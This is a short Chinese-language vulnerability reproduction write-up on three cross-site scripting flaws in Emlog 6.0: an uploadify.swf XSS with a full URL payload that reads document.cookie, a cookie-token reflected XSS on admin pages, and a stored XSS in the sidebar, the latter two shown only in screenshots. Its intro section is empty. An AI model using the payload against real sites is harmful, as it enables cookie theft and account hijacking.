 Emlog 6.0 xss集合
=================

一、漏洞简介
------------

二、漏洞影响
------------

Emlog 6.0

三、复现过程
------------

### Uploadify SWF XSS

Emlog使用了 uploadify.swf 的方式上传文件，文件路径
/include/lib/js/uploadify/uploadify.swf

payload

    http://www.0-sec.org/include/lib/js/uploadify/uploadify.swf?uploadifyID=00%22%29%29;}catch%28e%29{alert%281%29;}//%28%22&movieName=%22])}catch(e){if(!window.x){window.x=1;alert(document.cookie)}}//&.swf

效果，可无视浏览器filter：

![](./resource/Emlog6.0xss集合/media/rId25.png)

### 反射xss

此处的XSS主要发生在cookie上，因为某些页面如
admin/admin\_log,admin/sort.php,admin/link.php页面需要在表单中添加了hidden属性的token值，而这个token值直接从用户的cookie中取得，导致了一个反射型XSS

拦截抓包修改cookie中的token值如下：

![](./resource/Emlog6.0xss集合/media/rId27.png)

效果：

![](./resource/Emlog6.0xss集合/media/rId28.png)

### 侧边栏存储性XSS

为了同样是为了支持HTML代码的输出，没有转义对应的脚本代码标签，导致了存储性的XSS存在

![](./resource/Emlog6.0xss集合/media/rId30.png)
